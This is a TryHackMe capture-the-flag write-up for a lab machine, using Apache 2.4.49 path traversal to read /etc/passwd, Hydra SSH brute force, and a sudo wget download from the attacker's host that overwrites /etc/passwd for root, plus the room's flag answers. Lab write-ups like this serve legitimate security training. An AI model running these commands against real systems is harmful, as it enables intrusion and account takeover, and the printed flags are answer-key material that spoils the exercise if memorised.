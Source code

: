 
# THM-basiclevelctf-Writeup
https://tryhackme.com/room/basiclevelctf

The first step is to find out which ports are open.

```
nmap -sCV -vv 192.168.1.19
```
![NMAP Resulst](images/nmap.png "NMAP")

From the output of nmap now we know that there are 2 open ports,
that is: port 22 that is running SSH, Port 80 running a http webserver.

1. Q: What are the names of the services on the open ports?
A: ssh,http

# Accessing the Webserver
We access port 80 and this is the result we get.

![Webserver](images/index.png)



# Finding directory

To find other pages or directories that may exist within the server
we can use any directory brute-force tools such as dirbuster,
gobuster, dirsearch etc. But In my case I want to use dirb.

```
dirb http://192.168.1.19/
```
![dirb](images/dirb.png)

# Checking robots.txt
After checking **robots.txt**, we realized that there is a file named **secret.lst** thanks to robots.txt and it is most likely a wordlist.

![robots.txt](images/robots.png)

![secret.lst](images/secretlst.png)

# Check exploit for open port 22 or 80
Now we only have a wordlist and the ssh service is open. But we did not investigate whether the service running on port 80 has any vulnerability, let's start researching.

![exploit](images/exploit.png)

It seems that the Apache HTTP Server 2.4.49 service has a vulnerability. Let's download the code and test it on our target machine. 
Reference: https://www.exploit-db.com/exploits/50406
```
chmod +x PoC.sh
echo "http://192.168.1.19" > targets.txt
./PoC.sh targets.txt /etc/passwd
```
![readpasswd](images/readpasswd.png)
Yes, we detected a "Path Traversal" vulnerability on our target machine.
And in this way, we have detected the user named **h1ddenuser** by reading the /etc/passwd file.

# SSH Bruteforce
I will use the **hydra** tool to make a bruteforce attack, you can use any tool you want.
```
hydra -l h1ddenuser -P /home/user00/Downloads/secret.lst -t 64 ssh://192.168.1.19
```
![SSH Bruteforce Attack](images/hydra.png)
We found the password of the user named **h1ddenuser** with a brute-force attack. Let's log in!
```
ssh h1ddenuser@192.168.1.19
```
![We are in!](images/wearein.png)

# Let's find out what we have
```
cd ~
ls -la
```
![User.txt](images/usertxt.png)

2. Q:  user.txt 
A: THM{se3ms_l1ke_ez_f0r_y0u!}

# Privilege Escalation
Let's try **sudo su**
```
sudo su
```
![sudo su](images/sudosu.png)

Aughh failed!
But it's okay. Let's try **sudo -l**

```
sudo -l
```
![wget](images/wget.png)

We can use the -O parameter of the **wget** tool to become root. Since it will work with sudo, the output file will also be written by root. This means that we can manipulate the /etc/passwd file as we wish.
But first we need read /etc/passwd file again for copy everything. 
After that create password with **openssl** as we will overwrite /etc/passwd.
```
openssl passwd -1 your_password
```
Output: `$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/`
Let's manipulate the /etc/passwd file.
On our own computer, I create a file named **etc-passwd** on the desktop and make its content like this.
```
root:$1$IVk5HMy3$PwcEPPt/eMFXwt8HX75yh/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
h1ddenuser:x:1000:1000:h1ddenuser:/home/h1ddenuser:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```
Now let's start apache2.service on **attacker** machine for download named **etc-passwd** file and overwrite **/etc/passwd**.
![Apache2](images/apache2.png)
```
sudo service apache2 start
sudo mv /home/user00/Desktop/etc-passwd /var/www/html/
```
Now we can go back to the target ssh terminal. There's only one thing left to do.
# Get root shell
```
sudo wget http://192.168.1.200/etc-passwd -O /etc/passwd
```
![Overwrite /etc/passwd](images/overwrite.png)
```
su root
```
# Pwned
![System Pwned!](images/root.png)

3. Q:  root.txt 
A: THM{w3ll_d0n3_br0_so_3z!}
